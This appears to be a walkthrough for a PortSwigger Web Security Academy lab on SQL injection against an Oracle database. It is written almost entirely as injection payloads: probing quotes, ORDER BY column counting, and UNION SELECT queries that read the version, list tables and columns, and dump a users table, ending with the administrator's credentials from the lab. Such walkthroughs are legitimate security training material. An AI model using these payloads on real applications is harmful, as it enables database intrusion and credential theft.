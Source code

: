 Lab: SQL injection attack, listing the database contents on Oracle
#https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle
```bash
GET /filter?category=Gifts'
```
```bash
GET /filter?category=Gifts'--
```
```bash
GET /filter?category=Gifts' order by 1--
GET /filter?category=Gifts' order by 2--
GET /filter?category=Gifts' order by 3--
```
```bash
Gifts' UNION SELECT 'a','a'FROM DUAL--
```
```bash
Gifts' UNION SELECT banner,NULL FROM v$version--

#Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
```
```bash
  Gifts' UNION SELECT table_name,NULL FROM all_tables--

#USERS_WXHYIG
#APP_USERS_AND_ROLES
#SDO_PREFERRED_OPS_USER
```
```bash
GET /filter?category=Gifts' UNION SELECT column_name,NULL FROM all_tab_columns where table_name= 'USERS_WXHYIG'--

#PASSWORD_SBBXJA
#USERNAME_TVNWJG
```
```bash
GET /filter?category=Gifts' UNION SELECT USERNAME_TVNWJG,PASSWORD_SBBXJA FROM USERS_WXHYIG --
administrator
t696w0o3z6xyd7glavwd
```
